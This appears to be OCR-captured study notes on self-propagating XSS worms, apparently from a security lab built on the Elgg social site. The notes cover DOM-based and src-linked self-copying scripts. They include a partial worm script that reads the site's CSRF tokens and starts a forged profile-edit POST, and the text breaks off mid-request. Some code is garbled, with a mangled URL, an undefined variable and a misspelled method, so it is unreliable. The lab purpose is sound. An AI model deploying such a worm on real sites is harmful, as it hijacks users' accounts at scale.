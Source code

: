 ### self-propagation
- exponential growth
- dynamically generate code


1. **ID/DOM Approach**:
- If the entire JavaScript program (worm) is embedded in the infected profile
- the worm code can use `DOM APIs` to retrieve a copy of itself from the web page.
- This code gets a copy of itself, and display it in an alert window:


```js
// if f the entire JavaScript program (i.e., the worm) is embedded in the infected profile
// to propagate the worm to another profile
// the worm code can use DOM APIs to retrieve a copy of itself from the web page.
<script id="worm" type="text/javascript">
    var badCode = document.getElementById("worm");
    alert(badCode.innerHTML);
</script>

<script id="worm" type="text/javascript">
    // innerHTML only gives us the inside part of the code, var copy = document.getElementById("worm").innerHTML;
    header = "<script id=\"worm\" type=\"text/javascript\">";
    tail = "</" + "script>";
    var wormCode = encodeURIComponent(header+copy+tail);
    alert(jsCode);
</script>
```

2. **Src/Link Approach**:
- If the worm is included using the `src` attribute in the `<script>` tag
- can simply copy the `<script>` tag to the victim’s profile, essentially infecting the profile with the same worm.

```js
<script type="text/javascript" src="http网站//example.com/xss_worm.js">
</script>
```

1. example

```js
<script id="worm" type="text/javascript">

// construct a copy of itself
var selfProp = "<script id==\"worm\" type=\"text/javascript\">"
                .concat(document.getElementById("worm").innerHTML)
                .concat("</").concat("script>");

// main code ...

</script>



<script id="daut" type="text/javascript">
var sp="<script id=\"daut\" type=\"text/javascript\">".concat(document.getElementByID("daut").innerHTML).concat("</").concat("script>");

var sendurl="http://www.xsslabelgg.com/action/profile/edit";
var ts=elgg.security.token__elgg_ts;
var token=elgg.security.token.__elgg_token;

ff=new XMLHttpRequest();
ff.open("POST",sendurl,true);
ff.setRequestHeader("Host","www.xsslabelgg.com");
```